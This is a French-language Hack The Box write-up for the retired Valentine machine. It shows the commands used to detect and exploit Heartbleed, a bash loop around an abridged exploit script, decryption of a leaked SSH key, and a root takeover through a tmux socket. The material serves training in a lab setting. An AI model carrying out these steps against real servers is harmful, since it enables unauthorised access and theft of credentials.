 
---
title: "Valentine.htb version 1 — Hack The Box"
date: 2025-08-04
draft: false
description: "Writeup complet de la machine Valentine.htb (retired), incluant Heartbleed, extraction de clé SSH et escalade de privilèges via tmux."
tags: ["HTB", "CTF", "Heartbleed", "Privilege Escalation", "Linux"]
---

> Machine retirée de Hack The Box — difficulté *Easy*  
> Auteur : egre55

---

## 🧭 Reconnaissance

Scan initial :

```bash
nmap -sC -sV -p- valentine.htb
```

Ports ouverts :

- 22/tcp → OpenSSH 6.6.1
- 80/tcp → Apache 2.2.22 (Ubuntu)

Le site web révèle une interface avec des champs `encode`/`decode`, probablement base64.

```bash
curl http://valentine.htb
```

La page `/dev` contient deux fichiers intéressants :

- `hype_key`
- `notes.txt`

## 🔎 Analyse initiale

Le fichier `notes.txt` donne un indice sur l’encodeur/décodeur :

> Don't use the decoder/encoder until any of this is done.

Cela laisse penser que des failles côté client sont en jeu, mais sans encoder JS actif, rien d’immédiat.

Le fichier `hype_key` semble être un dump hexadécimal d'une clé SSH privée (confirmé par `file`).

```bash
file hype_key
# ASCII text, with very long lines
```

Contenu analysé : ce n’est pas une image, ni du base64. Probablement une clé SSH.

---

## 💉 Exploitation — Heartbleed (CVE-2014-0160)

Le port 443 est actif, et un scan `nmap` confirme la vulnérabilité Heartbleed :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Résultat :

```
State: VULNERABLE
Risk factor: High
```

### 🔧 Script utilisé : `heartbleed_full.sh`

```bash
#!/bin/bash
# Usage: ./heartbleed_full.sh
# Ce script exécute plusieurs fois l’exploit Heartbleed et extrait les chaînes ASCII

read -p "🔢 Nombre d'itérations Heartbleed à exécuter : " count
mkdir -p dumps
rm -f dumps/out_*.txt ascii_concatenated.txt

for i in $(seq -f "%03g" 1 $count); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii
done

echo -e "
🧪 Extraction des chaînes ASCII avec strings..."
strings dumps/out_*.txt | grep -E '[[:print:]]{4,}' | sort -u > ascii_concatenated.txt
echo -e "
✅ Terminé : toutes les chaînes ASCII concaténées dans ascii_concatenated.txt"
```

### 🐍 Script Python : `heartbleed-exploit.py`

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-
# Heartbleed exploit par Martial Puygrenier adapté pour extraire ASCII

# (… contenu abrégé, voir pièce jointe pour le fichier complet …)
```

Exécution du script :

```bash
./heartbleed_full.sh
```

Résultat : dans `ascii_concatenated.txt`, on récupère :

```
heartbleedbelievethehype
```

Mot de passe pour la clé SSH.

---

## 🔓 Clé SSH — Récupération

Convertir le fichier `hype_key` en binaire :

```bash
xxd -r -p hype_key hype_key.pem
```

Déchiffrer avec OpenSSL :

```bash
openssl rsa -in hype_key.pem -out hype_key_decrypted.pem
```

Utilisation :

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## 🚀 Escalade de privilèges

Une fois connecté en `hype`, on lance `linpeas.sh` :

```bash
./linpeas.sh
```

Ce dernier met en évidence une session `tmux` lancée en tant que root :

```
/usr/bin/tmux -S /.devs/dev_sess
```

On vérifie avec :

```bash
ls -la /.devs/
tmux -S /.devs/dev_sess attach
```

Bingo : une session root est accessible.

---

## 🏁 Flags

```bash
cat /home/hype/user.txt
cat /root/root.txt
```

---

## 📎 Pièces jointes

- [heartbleed_full.sh](/files/valentine/heartbleed_full.sh)
- [heartbleed-exploit.py](/files/valentine/heartbleed-exploit.py)

## 🔚 Conclusion

Cette machine montre l’impact réel d’une vulnérabilité critique comme Heartbleed. Avec un peu de persévérance, on remonte jusqu’à une clé SSH, puis une élévation de privilèges via une session `tmux` oubliée.

---

> 🎯 Entraîne-toi à automatiser ce type d’exploitation, et n’oublie jamais d’examiner les résultats de `linpeas` en détail !
